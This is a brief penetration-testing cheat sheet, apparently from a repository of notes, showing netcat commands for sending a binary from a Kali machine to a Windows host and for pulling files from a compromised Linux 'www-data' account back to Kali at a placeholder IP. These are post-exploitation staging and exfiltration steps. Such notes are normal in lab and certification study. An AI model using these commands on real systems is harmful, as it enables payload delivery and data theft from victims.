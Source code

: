# File transfer from Kali to Windows using netcat
(Sender) Kali ====> Windows (Receiver) 
``` 
nc.exe -nlvp 443 > C:\binary.exe 
``` 
``` 
nc -w 3 <Windows IP> 443 < binary.exe 
``` 

## File transfer from Linux to Kali

```
root@kali:~# nc -nvlp 5555 > filename

www-data@machine:/usr/local/bin$ nc 10.10.X.X 5555 < filename
```
